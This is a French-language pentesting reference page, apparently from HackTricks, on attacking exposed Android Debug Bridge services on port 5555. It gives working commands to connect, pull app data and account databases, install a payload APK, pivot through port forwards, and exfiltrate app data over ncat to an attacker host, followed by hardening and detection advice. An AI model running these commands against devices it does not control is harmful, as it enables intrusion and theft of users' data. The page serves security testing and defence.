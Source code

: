 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Informations de base

D'après [la documentation](https://developer.android.com/studio/command-line/adb) :

Android Debug Bridge (adb) est un outil en ligne de commande pour communiquer avec des appareils et des émulateurs basés sur Android. Les actions typiques incluent l'installation de paquets, le débogage et l'obtention d'un shell Unix interactif sur l'appareil.

- Port TCP par défaut historique : 5555 (mode classique "adb tcpip").
- Le débogage sans fil moderne (Android 11+) utilise l'appariement TLS et la découverte de services mDNS. Le port de connexion est dynamique et découvert via mDNS ; il peut ne pas être 5555. L'appariement se fait avec adb pair host:port suivi de adb connect. Voir les notes ci-dessous pour les implications offensives.

Exemple d'empreinte nmap :
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

Si vous trouvez ADB exposé et accessible, essayez de vous connecter et d'énumérer rapidement :
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Si l'appareil impose l'authentification ADB (ro.adb.secure=1), vous devrez être pré-autorisés (authentification USB RSA) ou utiliser le couplage de débogage sans fil Android 11+ (ce qui nécessite un code unique affiché sur l'appareil).
- Certaines images de fournisseurs, versions d'ingénierie/userdebug, émulateurs, téléviseurs, STB et kits de développement exposent adbd sans authentification ou avec adbd s'exécutant en tant que root. Dans ces cas, vous atterrirez généralement directement dans un shell ou un shell root.

Pour une référence générale des commandes ADB, voir :

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Post-Exploitation Rapide

Une fois que vous avez un shell, validez les privilèges et le contexte SELinux :
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Énumérer et capturer des données

- Lister les applications tierces et les chemins :
```bash
pm list packages -3
pm path <pkg>
```
- Si vous avez un accès root (adb root ou su fonctionnent), vous pouvez accéder directement à /data. Sinon, préférez run-as pour les applications débogables :
```bash
# Sans root, pour une application débogable
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Avec root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Artefacts système utiles (root requis) :
- /data/system/users/0/accounts.db et données AccountManager associées
- /data/misc/wifi/ (configurations/clés réseau sur les anciennes versions)
- DBs SQLite spécifiques à l'application et shared_prefs sous /data/data/<pkg>

Vous pouvez utiliser cela pour récupérer des informations sensibles (par exemple, des secrets d'application). Pour des notes sur les considérations relatives aux données Chrome, voir le problème référencé [ici](https://github.com/carlospolop/hacktricks/issues/274).

### Exécution de code et livraison de payload

- Installer et accorder automatiquement les autorisations d'exécution :
```bash
adb install -r -g payload.apk         # -g accorde toutes les autorisations d'exécution déclarées dans le manifeste
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Démarrer des activités/services/broadcasts directement :
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Transfert de port et pivotement

Même sans root, adb peut transférer des ports locaux vers des ports de l'appareil et vice versa. Cela est utile pour accéder à des services liés localement sur l'appareil ou pour exposer des services d'attaquant à l'appareil.

- Transférer hôte->appareil (accéder à un service local à l'appareil depuis votre hôte) :
```bash
adb forward tcp:2222 tcp:22       # Si l'appareil exécute SSH (par exemple, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Exposer le serveur de débogage local de l'application
```
- Inverser appareil->hôte (permettre à l'appareil d'atteindre un service sur votre hôte) :
```bash
adb reverse tcp:1080 tcp:1080     # Les applications de l'appareil peuvent maintenant atteindre hôte:1080 comme 127.0.0.1:1080
```
- Exfiltration de fichiers via des sockets (pas d'écritures sur sdcard) :
```bash
# Sur l'hôte : écouter
ncat -lvp 9000 > dump.tar
# Sur l'appareil : envoyer le répertoire sous forme de tar (root ou run-as selon le cas)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Débogage sans fil (Android 11+)

Android moderne implémente un débogage sans fil protégé par TLS avec appairage côté appareil et découverte mDNS :
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- Les ports sont dynamiques ; ne supposez pas 5555. Les noms de service mDNS ressemblent à :
- _adb-tls-pairing._tcp (appairage)
- _adb-tls-connect._tcp (connexion appariée)
- _adb._tcp (héritage/plain)
- Si mDNS est filtré, l'activation classique assistée par USB peut encore fonctionner sur certaines versions : `adb tcpip 5555` puis `adb connect <ip>:5555` (jusqu'au redémarrage).

Implications offensives : si vous pouvez interagir avec l'interface utilisateur de l'appareil (par exemple, accès physique ou mauvaise configuration MDM mobile) pour activer le débogage sans fil et voir le code d'appariement, vous pouvez établir un canal ADB apparié à long terme sans câble. Certains OEM exposent ADB sur TCP dans des images d'ingénierie/de développement sans appariement—vérifiez toujours.

## Hardening / Detection

Les défenseurs doivent supposer que tout adbd (TCP) accessible représente un risque critique.

- Désactivez ADB et le débogage sans fil lorsqu'ils ne sont pas nécessaires. Révoquez les autorisations de débogage USB dans les options de développement.
- Assurez-vous que la politique réseau bloque le TCP/5555 entrant et la découverte ADB basée sur mDNS sur des segments non fiables.
- Sur les appareils sous votre contrôle :
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # désactiver l'écoute TCP (ou utiliser : adb usb)
stop adbd; start adbd             # redémarrer le démon
```
- Surveillez les enregistrements mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` sur les réseaux d'entreprise et alertez pour des écouteurs 5555 inattendus.
- Inventaire des versions non sécurisées : `getprop ro.debuggable`, `ro.build.type`, et `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
